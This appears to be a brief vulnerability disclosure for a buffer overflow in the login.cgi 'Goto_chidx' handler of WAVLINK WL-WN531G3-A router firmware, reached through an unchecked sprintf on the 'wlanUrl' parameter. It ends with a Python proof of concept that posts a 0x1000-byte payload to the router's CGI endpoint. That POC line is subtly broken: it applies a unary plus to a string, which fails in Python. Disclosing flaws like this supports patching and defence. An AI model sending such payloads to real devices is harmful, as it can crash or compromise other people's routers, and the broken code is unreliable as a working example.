

# buff overflow

## WAVLINK_WL_WN531G3_A

version: 20220801

## Description:

There is a buff overflow in login.cgi/Goto_chidx

## Source:

you may download it from : 

[WL-WN531G3-A - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c85755a050.html)

## Analyse:



get value from wlanUrl, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'Goto_chidx', 'wlanUrl': + payload})
```
